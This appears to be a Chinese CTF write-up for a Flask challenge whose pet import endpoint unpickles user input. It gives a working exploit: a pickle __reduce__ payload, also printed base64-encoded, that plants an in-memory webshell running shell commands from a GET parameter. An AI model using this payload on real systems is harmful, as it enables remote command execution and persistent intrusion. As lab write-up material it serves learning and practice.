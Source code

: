 下面讲讲我的思路，因为没有想到通过执行命令把结果作为参数来创建对象，所以我的测试过程没有回显，思路有点偏，注册动态路由打了一个内存马。

审计源码，发现反序列化漏洞，通过本地重写`__reduce__`方法，构造`payload`，打过去

漏洞部分`pet = pickle.loads(pet_data)`

```python
    def import_pet(self, serialized_pet) -> bool:
        try:
            pet_data = base64.b64decode(serialized_pet)
            pet = pickle.loads(pet_data)

            if isinstance(pet, Pet):
                for i in self.pets:
                    if i.uuid == pet.uuid:
                        return False
                self.pets.append(pet)
                return True
            return False
        except Exception as e:
            print(e)
            return False
```

因为提交反序列化的payload后，服务器返回`{"error":"Failed to import pet"}`，一直不成功，折腾了一会老实了，拿到pycharm本地调试，发现题目确实反序列化了，只是反序列化的结果是eval导入的popen函数，不再是要求的对象，所以报错，不过没关系，提交的payload他都执行了，只是没有回显

![26](https://the0n3.top/medias/moectf/26.png)

断点调试找到问题，可以看到，反序列化后，pet是一个函数对象，已经执行了命令，由于不再是Pet对象，所以抛出异常返回false，最后页面打印了`{"error": "Failed to import pet"}`，所以说，这里反序列化命令执行是成功的，只是没有回显

![27](https://the0n3.top/medias/moectf/27.png)

考虑到题目环境没有导入os库，使用eval函数动态导入一下。因为题目不能出网，又没有回显，翻了很多文章，找到`gxngxngxn师傅`一篇关于注册动态路由、内存马的文章[新版FLASK下python内存马的研究](https://www.cnblogs.com/gxngxngxn/p/18181936)

exp

```python
import pickle
import base64
import uuid


class A():
    def __reduce__(self):
        # 生成内存马，get参数cola
        return (eval, (
        "__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('cola')).read())",))

pet = A()
serialized_pet = pickle.dumps(pet)
print(serialized_pet)
# gASVwwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIynX19pbXBvcnRfXygic3lzIikubW9kdWxlc1snX19tYWluX18nXS5fX2RpY3RfX1snYXBwJ10uYmVmb3JlX3JlcXVlc3RfZnVuY3Muc2V0ZGVmYXVsdChOb25lLCBbXSkuYXBwZW5kKGxhbWJkYSA6X19pbXBvcnRfXygnb3MnKS5wb3BlbihyZXF1ZXN0LmFyZ3MuZ2V0KCdjb2xhJykpLnJlYWQoKSmUhZRSlC4=
print(base64.b64encode(serialized_pet))
``` 

最后`url/import?cola=env`拿到flag

![28](https://the0n3.top/medias/moectf/28.png)